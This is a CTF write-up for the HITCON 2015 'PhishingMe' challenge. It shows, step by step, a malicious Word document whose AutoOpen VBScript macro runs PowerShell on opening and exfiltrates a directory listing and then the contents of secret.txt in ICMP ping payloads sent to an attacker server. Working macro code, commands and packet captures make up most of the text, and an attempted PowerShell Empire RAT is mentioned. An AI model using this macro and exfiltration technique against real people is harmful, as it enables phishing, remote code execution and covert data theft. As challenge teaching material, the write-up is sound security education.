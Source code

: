 ```yaml
---
layout: post
title:  "HITCON - PhishingMe"
date:   2015-10-19 18:03:59
categories: ctf phishing
---
```


```
Sent me a .doc, I will open it if your subject is "HITCON 2015"!
Find the flag under my file system. 
p.s. I've enabled Macro for you. ^_________________^
phishing.me.hitcon.2015@gmail.com.
```

PhishingMe was an introduction into the fun world of Phishing via VBScript macros in a `.doc`. Here we go!

## Prep Malicious File

First things first. We need a Microsoft Word `.doc` that will auto run a script on opening. The process used is described below.

Create a new `.doc` and open up the `Macros` window from the `Developer` tab.


![macro](/assets/images/macro1.png)

Create a new macro.

![macro2](/assets/images/macro2.png)

For our macro, we will attempt to run a simple command via `cmd.exe`.

```
Sub Auto_Open()
    Call Debugging
End Sub

Sub AutoOpen()
    Call Debugging
End Sub

Public Function Debugging() As Variant
    Set objShell = CreateObject("Wscript.Shell")
    strCmd = "cmd.exe /c ""ping SERVER_IP"""
    Set objExec = objShell.Exec(strCmd)
End Function
```

Drop this script into the macro window and save that bad boy.

![macro3](/assets/images/macro3.png)

To test that the command executed, let's watch for ping requests on our server.

```
tcpdump -nXX icmp
```

Save the `.doc`, reopen it, and see if we see our ICMP `echo request` on the server.

```
10:25:49.351725 IP MY-TEST-IP > MY-IP: ICMP echo request, id 1, seq 21, length 40
```

Shweet! The `.doc` is working on our end. Let's see if it works on the victim's end. We email the `.doc` to `phishing.me.hitcon.2015@gmail.com` and wait again to see if we see traffic on our server.

```
10:29:21.411226 IP VICTIM-IP > MY-IP: ICMP echo request, id 1, seq 21, length 40
```

Boom! Now we know that we have command execution! What can we do with this?

## Trial and Error

The first target was the common CTF strategy: get a shell and cat the flag. We can attempt to do this with a Powershell RAT from [PowershellEmpire](http://powershellempire.com). After about 30 - 45 minutes of testing, we realize the callbacks are not reaching our server from the victim, even though they work locally with a test environment. There must be a firewall or something blocking outbound traffic in the way. But we received traffic from the server already.. hmm..

## Padding FTW

We know that ICMP `echo requests` reach our server just fine. We also know that we can execute commands via our VBScript. Is there a way to send `ping`s via something like.. Powershell?! (I got really excited since this was my first time to use Powershell in a CTF). Let's see how we can send an ICMP `echo request`.

[Microsoft's](https://msdn.microsoft.com/en-us/library/ms144953.aspx) page on `System.Net.NetworkInformation.Ping` is shown below:

![Ping1](/assets/images/ping1.png)

![Ping2](/assets/images/ping2.png)

Looks like all we need is to pass an IP address, timeout, and.. what is that? a buffer? in an ICMP `echo request`? Let's take a look at the RFC for ICMP `echo request`.

![RFC](/assets/images/ping-rfc.png)

As it turns out, there is a data buffer in an ICMP `echo request` which we can set ourselves via the third parameter in the `Send` function.

Calling this function in Powershell looks something like this:

```
(New-Object System.Net.NetworkInformation.Ping).Send(server_ip, timeout, buffer)
```

In theory we should be able to pass the results of a command in the buffer field and see the results in our `tcpdump` output. Let's do a quick `dir` via ICMP.

```
powershell "$dir=dir;
(New-Object System.Net.NetworkInformation.Ping).Send('SERVER_IP', 1000, $dir)"
```

Ah, quick problem here. `Send` is expecting a `Byte[]` for the buffer parameter. Quick conversion will fix that.

```
powershell "$dir=dir;
(New-Object System.Net.NetworkInformation.Ping).Send('SERVER_IP', 1000, [system.Text.Encoding]::UTF8.GetBytes($dir)"
```

Replacing this command in our VBScript should yield success. (Note, `""` is the way to escape `"`)

```
Sub Auto_Open()
    Call Debugging
End Sub

Sub AutoOpen()
    Call Debugging
End Sub

Public Function Debugging() As Variant
    Set objShell = CreateObject("Wscript.Shell")
    strCmd = "powershell ""$dir=dir;(New-Object System.Net.NetworkInformation.Ping).Send('OUR_SERVER_IP', 1000, [system.Text.Encoding]::UTF8.GetBytes($dir)"""
    Set objExec = objShell.Exec(strCmd)
End Function
```

Throwing this at the victim shows very interesting results.

```
10:10:00.816080 IP VICTIM_IP > OUR_SERVER_IP: ICMP echo request, id 1, seq 19, length 75
0x0030:  6773 2050 726f 6772 616d 2046 696c 6573  gs.Program.Files
0x0040:  2050 726f 6772 616d 2046 696c 6573 2028  .Program.Files.(
0x0050:  7838 3629 2055 7365 7273 2057 696e 646f  x86).Users.Windo
0x0060:  7773 2073 6563 7265 742e 7478 74         ws.secret.txt
```

Well, well, well.. `secret.txt` looks interesting. Let's finanlly replace the `dir` with `type secret.txt` and see if we see good results.

```
Sub Auto_Open()
    Call Debugging
End Sub

Sub AutoOpen()
    Call Debugging
End Sub

Public Function Debugging() As Variant
    Set objShell = CreateObject("Wscript.Shell")
    strCmd = "powershell ""$dir=type secret.txt;(New-Object System.Net.NetworkInformation.Ping).Send('OUR_SERVER_IP', 1000, [system.Text.Encoding]::UTF8.GetBytes($dir)"""
    Set objExec = objShell.Exec(strCmd)
End Function
```

```
10:11:35.383781 IP VICTIM_IP > OUR_SERVER_IP: ICMP echo request, id 1, seq 20, length 52 
...
0x0020:  .... .... .... .... .... 6869 7463 6f6e  hitcon
0x0030:  7b6d 3463 7230 5f6d 6131 7761 7265 5f31  {m4cr0_ma1ware_1
0x0040:  735f 6d34 6b31 6e67 5f61 5f63 306d 6562  s_m4k1ng_a_c0meb
0x0050:  3463 6b21 217d                           4ck!!}
```

And look what we have here..

```
hitcon{m4cr0_ma1ware_1s_m4k1ng_a_c0meb4ck!!}
```

Super cool challenge and not a bad way to use Powershell.

More information on ping exfiltration: [here](http://blog.ring-zer0.com/2014/02/data-exfiltration-on-linux.html)
